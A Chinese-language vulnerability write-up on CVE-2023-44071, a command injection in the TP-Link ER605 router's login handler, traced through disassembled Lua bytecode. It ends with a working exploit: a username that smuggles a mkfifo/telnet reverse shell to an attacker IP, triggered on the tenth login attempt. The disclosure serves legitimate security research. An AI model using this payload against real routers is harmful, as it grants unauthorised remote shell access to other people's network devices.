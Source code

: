 # TP-Link ER605 Command injection

[English](https://github.com/Zhi0Yuan/MyBlog/blob/main/tp-link-er605/tp-link-er605-en.md)

## 前言

> 这是我写这个漏洞文章的第二版，发现漏洞的契机是在去年的PWN2OWN TORONTO 2023这个设备是比赛的目标设备，在比赛的固件中已修复了该问题，让我们来简单的看一下这个漏洞吧。

## 分配的CVE

> CVE-2023-44071

## 影响版本

> ER605(UN)_V1_1.3.0 Build 20230511, ER605(UN)_V2_2.1.2 Build 20230210

## 分析

> 下载存在漏洞的版本，直接使用unblob提取固件

![img](./unblob.png)

> 查看文件系统就是openwrt，所以直接定位luci去进行代码审计通过，通过搜索危险函数定位到，/usr/lib/lua/luci/controller/login.lua 在登录的lua文件中居然存在exec函数，在luci中luci.sys.exec是用来执行系统命令的。

![img](./exec.png)

> 当然真实情况是我将编译的lua文件进行反编译后在vscode中找危险函数始终没有进展(因为反编译工具始终没有正确识别exec函数)，后面直接使用grep去搜索危险函数才发现login中存在exec

![img](./compile.png)

> 由于反编译的代码中并没有成功识别exec函数我只能够使用`luadec -dis`反汇编所以下面的都是汇编代码，阅读起来一点麻烦。定位到exec函数
```
         ...
  180 [-]: GETGLOBAL R20 K16      ; R20 := string
  181 [-]: GETTABLE  R20 R20 K54  ; R20 := R20["format"]
  182 [-]: LOADK     R21 K55      ; R21 := "ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"
  183 [-]: GETUPVAL  R22 U11      ; R22 := U11
  184 [-]: GETUPVAL  R23 U12      ; R23 := U12
  185 [-]: GETUPVAL  R24 U13      ; R24 := U13
  186 [-]: MOVE      R25 R7       ; R25 := R7
  187 [-]: GETUPVAL  R26 U14      ; R26 := U14
  188 [-]: MOVE      R27 R9       ; R27 := R9
  189 [-]: GETTABLE  R28 R18 K42  ; R28 := R18["attempts"]
  190 [-]: CALL      R20 9 2      ; R20 := R20(R21 to R28)
  191 [-]: GETTABLE  R21 R3 K56   ; R21 := R3["exec"]
  192 [-]: MOVE      R22 R20      ; R22 := R20
  193 [-]: CALL      R21 2 1      ;  := R21(R22) //这里存在可能的 command injection
         ...
```

> 可以看到在181行中使用了string.format字符串格式化函数，推测使用string.format格式化`"ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"` 可以看到其中的userName可能可以控制，寻找如何接收username?

```
    0 [-]: NEWTABLE  R1 0 0       ; R1 := {} (size = 0,0)
    1 [-]: GETGLOBAL R2 K0        ; R2 := require
    2 [-]: LOADK     R3 K1        ; R3 := "luci.sauth"
    3 [-]: CALL      R2 2 2       ; R2 := R2(R3)
    4 [-]: GETGLOBAL R3 K0        ; R3 := require
    5 [-]: LOADK     R4 K2        ; R4 := "luci.sys"
    6 [-]: CALL      R3 2 2       ; R3 := R3(R4)
    7 [-]: GETGLOBAL R4 K0        ; R4 := require
    8 [-]: LOADK     R5 K3        ; R5 := "luci.model.checktypes"
    9 [-]: CALL      R4 2 2       ; R4 := R4(R5)
   10 [-]: GETUPVAL  R5 U0        ; R5 := U0
   11 [-]: GETTABLE  R5 R5 K4     ; R5 := R5["decode"]
   12 [-]: GETTABLE  R6 R0 K5     ; R6 := R0["data"]
   13 [-]: CALL      R5 2 2       ; R5 := R5(R6)
   14 [-]: GETTABLE  R6 R5 K6     ; R6 := R5["params"]
   15 [-]: GETTABLE  R7 R6 K7     ; R7 := R6["username"] //获取username的值，存放在R7中
   16 [-]: GETTABLE  R8 R6 K8     ; R8 := R6["password"]
   17 [-]: GETTABLE  R9 R3 K9     ; R9 := R3["getenv"]
   18 [-]: LOADK     R10 K10      ; R10 := "REMOTE_ADDR"
   19 [-]: CALL      R9 2 2       ; R9 := R9(R10)
   20 [-]: LOADNIL   R10 R10      ; R10 := nil
   21 [-]: GETTABLE  R11 R4 K11   ; R11 := R4["check_ip_in_lan"]
   22 [-]: MOVE      R12 R9       ; R12 := R9
   23 [-]: CALL      R11 2 2      ; R11 := R11(R12)
   24 [-]: NOT       R11 R11      ; R11 := not R11
   25 [-]: LOADNIL   R12 R12      ; R12 := nil
                ...
```

> 在15行使用require接收username，存放到R7中。而正好在186行使用了R7。现在可以推测我们只需要在登录的时候更改username为shell command就可以注入了吗?

> 当然我们失败了，但是为什么难道这个username是从别的地方来的吗？向前查看代码我发现了一些判断！

```
         ...
  176 [-]: GETTABLE  R20 R18 K42  ; R20 := R18["attempts"]
  177 [-]: GETUPVAL  R21 U4       ; R21 := U4
  178 [-]: EQ        0 R20 R21    ; if R20 == R21 then goto 180 else goto 194
  179 [-]: JMP       14           ; PC += 14 (goto 194)
         ...
```
> 当R20等于R21时我们将jmp到180，也就是执行exec的地方，所以这是什么东西呢?

```

  157 [-]: GETUPVAL  R20 U4       ; R20 := U4
  158 [-]: GETTABLE  R21 R18 K42  ; R21 := R18["attempts"]
  159 [-]: SUB       R20 R20 R21  ; R20 := R20 - R21 
  160 [-]: SETTABLE  R1 K45 R20   ; R1["attemptsAllowed"] := R20
  161 [-]: TEST      R11 0        ; if R11 then goto 163 else goto 170
  162 [-]: JMP       7            ; PC += 7 (goto 170)

```

> 继续向前面查看可以看到在158行也对R20和R21执行了什么操作，在下面可以看到attemptsAllowed，那么会不会是允许登录的次数，因为在测试登录时系统会提醒还有多少次尝试登录的机会。

> 没错我们赌赢了✌️！确实是这样的，当我们尝试登录到第十次，也就是最后一次机会时将用户名更改为shellcommand。我们将会获取一个漂亮的shell🫡！

```sh
'`rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet ip port > f`'
```

## Vido

https://drive.google.com/file/d/1bXSqmImmRc7TIJ8HjFDIc1s0EDJuQpEz/view?usp=sharing
